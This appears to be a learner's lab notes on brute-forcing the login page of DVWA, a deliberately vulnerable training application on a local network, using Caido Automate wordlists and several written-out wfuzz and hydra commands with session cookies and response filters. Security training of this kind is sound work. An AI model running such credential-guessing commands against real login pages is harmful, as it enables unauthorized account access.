






A brute force attack can manifest itself in many different ways, but primarily consists in an attacker configuring predetermined values, making requests to a server using those values, and then analyzing the response. For the sake of efficiency, an attacker may use a dictionary attack (with or without mutations) or a traditional brute-force attack (with given classes of characters e.g.: alphanumeric, special, case (in)sensitive). Considering a given method, number of tries, efficiency of the system which conducts the attack, and estimated efficiency of the system which is attacked the attacker is able to calculate approximately how long it will take to submit all chosen predetermined values.

https://owasp.org/www-community/attacks/Brute_force_attack

At the Login page  attempt to log in with any random character

In Caido;
	In the HTTP history tab find the corresponding request:
	

Send it to Automate

Select matrix:
Highlight the username you entered, and add a payload
Make a list of all the usernames you know

Highlight the the password you entered
Google: password list small filetype:txt
find a suitable file containing passwords
In Caido on the left menu select 'files' and upload your workdlist

	Back in Automate:
	Select the password you entered and add a second payload
		Type: Hosted file 
		Select your wordlist
			Hit 'Run'

Once you've run the file sort the requests by Length(decending)

Also: 

Open the image and you'll find the directory 
	

Try this command: 
`wfuzz -c -w shortlist.txt -b 'security=low;PHPSESSID=fa9v6gnk6bf6le62oss13p9snf' 'http://192.168.0.123/dvwa/vulnerabilities/brute/?username=admin&password=FUZZ&Login=Login'`

This one is for 'gordonb':

`wfuzz -c -w shortlist.txt -b 'security=low;PHPSESSID=fa9v6gnk6bf6le62oss13p9snf' '
http://192.168.10.123/dvwa/vulnerabilities/brute/?username=gordonb&password=FUZZ&Login=Login'
`

Add the show words flag: --sw

`wfuzz **--sw 259** -c -w shortlist.txt -b 'security=low;PHPSESSID=fa9v6gnk6bf6le62oss13p9snf' 'http://192.168.10.123/dvwa/vulnerabilities/brute/?username=admin&password=FUZZ&Login=Login'`

Even better:

`wfuzz **--hh 4373** -c -w shortlist.txt -b 'security=low;PHPSESSID=fa9v6gnk6bf6le62oss13p9snf'
'http://192.168.10.123/dvwa/vulnerabilities/brute/?username=gordonb&password=FUZZ&Login=Login'`

This will hide responses with 4373 characters.
	

`wfuzz --hh 4373 -c -w users.txt -w shortlist.txt -b 'security=low;PHPSESSID=fa9v6gnk6bf6le62oss13p9snf' 'http://192.168.10.123/dvwa/vulnerabilities/brute/?username=FUZZ&password=FUZ2Z&Login=Login'`

I'm struggling to get the hard one. 

`hydra -L users.txt -P shortlist.txt -u 192.168.10.123 http-post-form "/dvwa/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:F='Username and/or password incorrect'" -I`

**High:**

Need to find a way to use the correct csrf/user token 
